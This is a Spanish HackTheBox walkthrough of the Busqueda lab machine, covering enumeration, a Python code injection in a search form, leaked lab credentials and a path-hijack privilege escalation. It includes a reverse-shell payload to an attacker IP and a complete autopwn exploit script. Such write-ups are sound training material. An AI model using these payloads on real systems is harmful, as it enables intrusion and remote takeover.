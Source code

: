```yaml
---
title: Busqueda
layout: page
permalink: /HTB_Busqueda
---
```


<h2 class="amarillo">HackTheBox - Busqueda WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/Busqueda.png" alt="under" oncontextmenu="return false;">
</div>
Comenzamos encendiendo la maquina busqueda y nos dará la dirección IP 10.129.232.124, probamos a lanzarle cinco trazas ICMP para verificar que la maquina esta activa y de paso por el TLL identificar a que sistema operativo nos estamos enfrentando (Si Linux o Windows)
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/1.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un TLL de 63 por tanto estamos frente a una maquina Linux

<h2 class="amarillo">Enumeración</h2>

Para la enumeración comenzamos con nmap para hacer un escaneo a todo el rango de puertos identificando aquellos que estén abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.232.124
```

Y exportamos la captura de nmap en allPorts
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/2.png" alt="under" oncontextmenu="return false;">
</div>


Como unicamente vemos el puerto 22 y 80 procedemos a lanzar una serie de scripts básicos de reconocimiento para identificar la version y servicio que corren para estos puertos
```bash
nmap -p22,80 -sCV 10.129.232.124
```
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/3.png" alt="under" oncontextmenu="return false;">
</div>


Vemos un servicio http, probamos a enumerar las tecnologías que puedan estar ejecutándose en el servicio web con la herramienta whatweb
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/4.png" alt="under" oncontextmenu="return false;">
</div>


Vemos que nos esta haciendo un redirect al dominio searcher.htb, una vez agregado al /etc/hosts probamos nuevamente a enumerar con whatweb
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/5.png" alt="under" oncontextmenu="return false;">
</div>


Y ya me llama la atención que este ejecutando un Werkzeug y Python, por tanto buscamos con searchsploit si existe alguna vulnerabilidad asociada
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/6.png" alt="under" oncontextmenu="return false;">
</div>


No vemos nada interesante entonces pasamos directamente a la web que encontramos
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/7.png" alt="under" oncontextmenu="return false;">
</div>


La web nos dice que podemos hacer búsquedas desde un motor cualquiera, asi que si interceptamos la petición con BurpSuite veremos mas a detalle como se esta manejando la información
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/8.png" alt="under" oncontextmenu="return false;">
</div>


Y vemos que por POST se esta tramitando las variables engine y query
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/9.png" alt="under" oncontextmenu="return false;">
</div>


EL campo query es vulnerable a RCE con python entonces podemos probar a entablarnos una reverse shell
```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.55',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Y logramos entrar a la maquina
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/10.png" alt="under" oncontextmenu="return false;">
</div>

<h2 class="amarillo">Escalada</h2>

Para la escalada enumerando un poco el sistema veremos que hay un directorio oculto .git el cual cuenta con un usuario cody y nos permite acceder a un nuevo dominio **gitea.searcher.htb**
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/11.png" alt="under" oncontextmenu="return false;">
</div>


Agregando este dominio al /etc/hosts podremos acceder a Gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/12.png" alt="under" oncontextmenu="return false;">
</div>


Resulta que podremos iniciar sesión como cody ya que tenemos su contraseña
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/13.png" alt="under" oncontextmenu="return false;">
</div>

Podemos probar a enumerar si tenemos algún privilegio asignado a nivel de sudoers con las credenciales de cody
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/14.png" alt="under" oncontextmenu="return false;">
</div>


Y correcto, vemos que podemos ejecutar el binario de python3 sobre un script, asi que listando un poco el contenido de este
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/15.png" alt="under" oncontextmenu="return false;">
</div>



Probamos a enumerar un poco, en especial el gitea

<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/17.png" alt="under" oncontextmenu="return false;">
</div>

Veremos un nombre de usuario de base de datos y su contraseña
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/18.png" alt="under" oncontextmenu="return false;">
</div>


`gitea:yuiu1hoiu4i5ho1uh`
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/19.png" alt="under" oncontextmenu="return false;">
</div>


También encontraremos las credenciales de un root

`root:jI86kGUuj87guWr3RyF`
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/20.png" alt="under" oncontextmenu="return false;">
</div>


Si intentamos conectarnos con mysql al contenedor docker por la 172.19.0.3 podremos hacerlo
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/21.png" alt="under" oncontextmenu="return false;">
</div>


Ya solo queda enumerar esta base de datos para encontrar alguna credencial
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/22.png" alt="under" oncontextmenu="return false;">
</div>



Y tendremos administrator y cody del servicio gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/23.png" alt="under" oncontextmenu="return false;">
</div>


La cual podremos crackear :

`ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2`

Y seguido conectarnos como administrator en gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/24.png" alt="under" oncontextmenu="return false;">
</div>


Revisando un poco el gitea veremos una copia legible del script que estábamos ejecutando como root, donde encontramos el vector de ataque y es que el script esta buscando en el directorio actual de trabajo el archivo ./fulll-checkup.sh
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/25.png" alt="under" oncontextmenu="return false;">
</div>


Simplemente tendremos que secuestrar ese binario creando nuestro propio full-checkup.sh malicioso que asigne el privilegio SUID a la bash
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/26.png" alt="under" oncontextmenu="return false;">
</div>

Así habremos completado la maquina.

<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/pwned.png" alt="under" oncontextmenu="return false;">
</div>

De paso compartir el script autopwn para la maquina:
```python
#!/usr/bin/env python3
# Author: Juan Garcia aka liandd
import signal
import sys
from termcolor import colored
import requests
import argparse
import threading
from pwn import *


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo...", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Busqueda", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://searcher.htb)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


def searchorExploit(URL, IP, PORT):
    reverse = """', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('%s',%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#""" % (
        IP, PORT)

    data = {'engine': 'Yandex',
            'query': reverse}

    r = requests.post(URL + "/search", data=data)


def main():
    URL, IP, PORT = get_arguments()

    try:
        threading.Thread(target=searchorExploit, args=(URL, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```

<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/27.png" alt="under" oncontextmenu="return false;">
</div>

